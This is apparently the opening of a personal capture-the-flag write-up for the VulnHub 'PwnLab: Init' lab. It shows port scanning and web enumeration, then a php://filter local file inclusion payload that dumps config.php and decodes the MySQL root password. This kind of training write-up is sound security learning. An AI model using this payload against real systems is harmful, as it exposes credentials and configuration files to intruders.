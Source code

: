 # PwnLab: Init

https://www.vulnhub.com/entry/pwnlab-init,158/

Another lab taken from [abatchy's list](https://www.abatchy.com/2017/02/oscp-like-vulnhub-vms) of OSCP-like vulnhub instances.

## Port Recon

An all port scan gives:

```
kali@kali:~$ nmap -p- 192.168.1.70
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-29 01:13 EDT
Nmap scan report for 192.168.1.70
Host is up (0.016s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE
80/tcp    open  http
111/tcp   open  rpcbind
3306/tcp  open  mysql
59496/tcp open  unknown
```

MySql and ssh both require creds. The rcpbind instance, when scanned more deeply, reveals nothing but rcpbind and 'status' listening on a variety of ports, including that 59496 port. At this stage, this means the only port of instance is 80.

## 'PwnLab Intranet Image hosting'

The website is a a simple site that allows image uploading for logged in users. A dirb, nikto, wfuzz all reveal:

- four apparent pages: index.php, login.php, upload.php and config.php. The last doesn't render anything, but does reveal a 200 code if visited.
- two directories that are listable: /upload/ and /images/ (the latter hosts the site's banner)

Importantly, the base page doesn't actually link to the others; instead it uses a `?page=` query string parameter that appears to load the other page content. I tried various attempted LFI techniques (local file inclusion) but none worked.

## A hint

I was stuck at this point. I don't like going for hints, but if I can't make any headway I go and skim someone elses walkthrough, or ask a friend. Typically its useful as I am new at this, and there is a lot I know I don't know and which I won't be able to figure out regardless of how much I bang my head against it. So, as long as I have had a good go at it, I view looking for a hint as being a learning opportunity.

It definitely was in this case; I wouldn't have guessed you can use a php filter with a LFI opportunity:

1. The use of ?page= indicates the core index page is loading the PHP from the indicated file and rendering it.
2. When dealing with LFI with PHP, there are a variety of techniques (e.g. documented here on [this nice medium post](https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601))
3. After testing one or two, the one that worked was the use of a php filter with base 64 encoding.

Using a filter, when the site loaded the local resource (it would still only work with its local, defined resources), I could get it to output the base64 encoded content of the indicated reource, e.g. the config file:

`http://192.168.1.70/?page=php://filter/convert.base64-encode/resource=config` (rather than `?page=config`)

This prints the string on the page: `PD9waHANCiRzZXJ2ZXIJICA9ICJsb2NhbGhvc3QiOw0KJHVzZXJuYW1lID0gInJvb3QiOw0KJHBhc3N3b3JkID0gIkg0dSVRSl9IOTkiOw0KJGRhdGFiYXNlID0gIlVzZXJzIjsNCj8+` which decodes to (I used burp decoder):

```
<?php
$server	  = "localhost";
$username = "root";
$password = "H4u%QJ_H99";
$database = "Users";
?>
```

